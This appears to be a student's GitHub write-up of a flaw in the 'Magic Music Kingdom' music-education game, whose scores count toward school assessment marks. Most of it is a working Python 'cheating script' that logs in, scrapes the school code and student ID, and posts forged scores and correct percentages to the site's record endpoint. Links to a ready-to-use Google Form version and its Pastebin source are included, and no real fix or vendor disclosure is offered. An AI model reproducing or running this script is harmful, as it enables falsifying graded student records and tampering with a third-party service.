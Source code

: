 > [!CAUTION]
> If anyone uses the following script to engage in activities that will break the school regulations or laws in your jurisdiction, Lee Perseus Robin will not pay any responsibility for the respective activities.

> [!NOTE]
> This article discusses a recent event; please view it with caution.

Since the email vulnerability, Lee Perseus Robin (2G - 16) has found yet again a Vulnerability that could be taken advantage of. 
This time around, it is about the Magic Music Kingdom, used by the Music Department for giving tests on instruments and also counting as SBA marks.

## What is "Magic Music Kingdom"?
> From [Hong Kong Music Publisher](https://www.hkmusic.com.hk/web/apps.asp?lang=en)

Magic Music Kingdom has a series of interactive games with different levels to accommodate your music lessons. The games include recognizing notes and rhythm, knowledge about composers and their works, etc. All records can be saved for teachers or students to keep track of the learning progress.

## What does the "cheating script" do?
Basically:
1. It pretends to be the user by getting their credentials and retrieving the school code and school ID from the hkmusic.com.hk login page.
2. It continues to use the same logic that the normal app has and sends a POST request with the information given.
3. Then, the user's record will update to what the user has ordered, hence enabling cheating.

## How to run the cheating script?
- **Google Form Version (Proof of Concept)**: [Google Form](https://forms.gle/etBbtW6QSHtjhE8z9)
- **Source Code for the Google Form (Google Apps Script)**: [Pastebin](https://pastebin.com/raw/7Y2UNSbk)
- **List of Game ID and Games**: [Imgur Album](https://imgur.com/a/8fGM1Hp)

### Python Version (for demonstration purposes only):
1. Requirments: (pip install) requests
```python
import requests
import re
import math

# Input variables from the user
total_correct = input("Enter total correct answers: ")
total_wrong = input("Enter total wrong answers: ")
name_login = input("Enter your login name: ")
password = input("Enter your password: ")
gameID = input("Enter game ID: ")
highestMaxCombo = input("Enter highest max combo: ")
totalScore = input("Enter total score: ")

# Calculate correct percentage
correct_percent = math.ceil((int(total_correct) * 100) / (int(total_correct) + int(total_wrong))) if (int(total_correct) + int(total_wrong)) > 0 else 0

# Fetching cookies
initial_url = "https://www.hkmusic.com.hk"
session = requests.Session()
session.get(initial_url)

# Get cookies from the session
cookies = session.cookies.get_dict()

# Login URL and payload
login_url = "https://www.hkmusic.com.hk/web/student_pages/login/loginRegistered.asp"
payload = {
    'name_login': name_login,
    'pw': password,
}

# Perform login
response = session.post(login_url, data=payload, cookies=cookies)
response_text = response.text

# Extract school code and student ID using regex
school_code_match = re.search(r'<input[^>]+name="schoolCode"[^>]+value="([^"]*)"', response_text)
student_id_match = re.search(r'<input[^>]+name="studentId"[^>]+value="([^"]*)"', response_text)

school_code = school_code_match.group(1) if school_code_match else None
student_id = student_id_match.group(1) if student_id_match else None

print("School code:", school_code)
print("Student ID:", student_id)

if school_code and student_id:
    # Record URL and parameters
    record_url = "https://www.hkmusic.com.hk/web/shareResources/MusicMagicKingdom_beta2/appMMKaddRecord.asp"
    params = {
        'student_id': student_id,
        'school_code': school_code,
        'gameID': gameID,
        'studentFormNumCurrent': 2,
        'totalCorrect': total_correct,
        'totalWrong': total_wrong,
        'correctPercent': correct_percent,
        'highestMaxCombo': highestMaxCombo,
        'totalScore': totalScore
    }

    # Submit the record
    record_response = session.get(record_url, params=params)
    print("Response Status Code:", record_response.status_code)
    print("Response Content:", record_response.text)
else:
    print("Login failed or could not retrieve student info.")
```
## How to fix the Vulnerability?
The only people who can fix this is the employees in "Hong Kong Music Publisher", which we have a very slim chance of getting their attention. Therefore, I propose that we just get rid of Music Magic Kingdom altogether, it ain't that fun, eh?
## How to contact us to get more information about the Vulnerability?
For further inquiries or additional information regarding this vulnerability, please feel free to reach out to me at [perseus@lscstudy.us.kg](mailto:perseus@lscstudy.us.kg), [s23218@lsc.hk](mailto:s23218@lsc.hk) or [perseusrobin@gmail.com](mailto:perseusrobin@gmail.com).
## Special thanks
The discoverer of the Vulnerability would like to thank the Developers at FFDec and 7-zip, their software has been a massive help for dicovering this.
![image](https://github.com/user-attachments/assets/e016973b-2da3-4b64-82b5-10a30ebad707)